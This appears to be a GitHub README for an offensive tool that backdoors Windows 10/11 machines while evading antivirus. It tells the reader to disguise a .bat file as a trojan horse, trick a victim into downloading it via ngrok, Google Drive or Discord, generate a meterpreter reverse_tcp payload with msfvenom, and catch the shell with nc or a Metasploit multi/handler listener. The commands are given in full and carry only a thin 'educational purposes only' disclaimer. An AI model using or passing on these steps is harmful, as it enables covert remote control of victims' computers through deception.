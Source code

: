 # Windows 11/10 Bypass AV & Backdoor
##### Requires victim to have Admin Privs
##### For educational purposes only!
##### Social Engineering required!
## Steps to Compromise:

1. Make it convincing by turning it into a trojan horse.
2. Get victim to download .bat file to their machine (i.e through ngrok server, google drive, discord, or other means.)
3. Generate the payload: <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -a x86 -f exe -o [FILE_NAME.exe]

4. Setup your listener with nc or msfconsole: <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>
